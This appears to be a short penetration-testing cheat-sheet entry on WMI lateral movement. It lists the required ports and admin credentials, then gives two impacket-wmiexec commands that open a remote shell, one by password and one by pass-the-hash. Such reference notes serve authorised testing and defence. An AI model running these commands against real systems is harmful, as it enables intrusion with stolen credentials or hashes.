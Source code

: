 ### WMI
The usage conditions for this tool require that ports 445, 135, and a high random port are allowed to communicate.  
It requires credentials of a member of the Administrators local group
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```
